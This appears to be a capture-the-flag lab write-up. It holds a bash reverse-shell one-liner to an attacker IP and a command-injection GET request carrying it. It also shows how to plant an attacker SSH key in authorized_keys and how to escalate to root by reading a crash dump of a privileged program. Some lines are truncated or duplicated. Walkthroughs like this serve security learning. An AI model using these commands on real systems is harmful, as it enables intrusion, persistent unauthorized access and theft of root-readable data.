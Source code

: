 Command to pop a reverse shell: ```/bin/bash -c "bash -i >& /dev/tcp/10.10.15.30/443 0>&1"```
Request: ```GET /api/logs?file=index;/bin/bash+-c+"bash+-i+>%26+/dev/tcp/10.10.15.30/443+0>%261" HTTP/1.1```

Generate ssh key for remote authentication without a password: ```ssh-keygen -t rsa -b 4096```

This generates a public and privatekey to ~/.ssh
- Private key file: id_rsa
- Public key file: id_rsa.pub

Copy id_rsa.pub to clipboard and paste with the following command:

Copy id_rsa.pub to remote authorized_keys file: ```echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC+88CT+6BjetCEI6h4SXyt/JzyLWyRbNn2dj7Nae5neG9FnstjEC6s3MHgXbsVVRFWWb+J6VNoSe02o5Gh761TgB3MLoIf4CUoQoFmoyj6rql4z7klYd3iLYeZ1kNoFeCMtboI90LRjpF4CT/CnQLX5zSjZD6gCPDlRXE7Xgw2
VF/FPtcB9kPA+PtlZSey6DX2cC6Z0wapuR1x8V3cwmFRyvDCp6NgGOwfeIYc0qhBa0NAWA8mfxKZI7uyZChxrUNKbmy60aOfaxW0LZ6xWkM8Fj0Mb9J6ZE+V9EhSMxnV+hWsO776d42zOsDPn/t9WYYw8X8TcHqwziVCew+zHgzr2XC5XywPOwj1pBf0j3cWvP95zxIBSWmMK0YMVW5aL5+l0aMjBGFLEeRws9LEOzER
mxnOgwC7ALDJTyESfwDWVSh99CGSDWZBc48QQ3oeon6TNemAjFzijfW0FeyrgcbZhqG55gmUyfHs7FEi7hWapF1qQygBUvz2wcCIvrSsPLJ/N7hTmbkIa4kSLqAcL2NQRtXBt+SAivXzkHrmzF3289IAc9L1w/rHqCV3TKpSgoppCGRyQZlOXyd3irt4MVY2IVrI2WW9lgXsbTRFv7fH5FcRcP7oHEwr3mBE5y4Rt46j
SEx4NyfprsJZPBmSnAUj/rZv2X8w3LUbUuo+Qs+o0Q== kali@kali' >> authorized_users                                           
<2X8w3LUbUuo+Qs+o0Q== kali@kali' >> authorized_keys```

Check /opt directory to find "count" program thats runnable by the current user.
Run the program and see that it analyzes files accessible by root.
Analyze the code file "code.c" within the same directory to see the following lines: 
![[Attachments/Pasted image 20220305164945.png]]
Upon researching the prctl() function we learn that PR_SET_DUMPABLE being set to 1 makes it so that 
When running the program again, background it when asked ```Save results a file? [y/N]:```
Kill the background process with the command ```kill -SIGSEGV 3925```
Then foreground it with the command ```fg```
Find the crash file inside of "/var/crash" and analyze it by running the command ```apport-unpack /var/crash/_opt_count.1000.crash /dev/shm/1```
Then run strings on this output with the command ```strings /dev/shm/1/CoreDump```

Tools Used:
- Burp Suite (craft requests)
- Curl (craft requests)
- jwt.io (verify web-token)
- Reverse Shell Generator
- apport-unpack 
